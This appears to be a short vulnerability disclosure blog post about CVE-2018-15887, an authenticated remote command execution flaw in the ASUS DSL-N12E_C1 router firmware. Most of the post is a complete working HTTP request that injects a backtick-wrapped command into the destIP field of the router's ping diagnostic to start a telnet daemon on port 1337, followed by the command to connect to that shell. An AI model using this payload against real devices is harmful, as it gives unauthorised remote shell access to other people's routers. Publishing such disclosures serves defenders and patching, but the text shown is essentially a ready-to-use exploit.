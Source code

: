```yaml
---
layout: post
title: "[CVE-2018-15887] ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution"
comments: true
description: "ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution"
keywords: "asus, iot, dsl-n12e, rce, command injection"
---
```


Main_Analysis_Content.asp in ASUS DSL-N12E_C1 1.1.2.3_345 is prone to Authenticated Remote Command Execution, which allows a remote attacker to execute arbitrary OS commands via service parameters, such as shell metacharacters in the destIP parameter of a cmdMethod=ping request.

```
GET /Main_Analysis_Content.asp?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&next_host=www.target.com&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&applyFlag=1&preferred_lang=EN&firmver=1.1.2.3_345-g987b580&cmdMethod=ping&destIP=%60utelnetd+-p+1337%60&pingCNT=5 HTTP/1.1
Host: www.target.com
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://www.target.com/Main_Analysis_Content.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

To connect
1. telnet www.target.com 1337
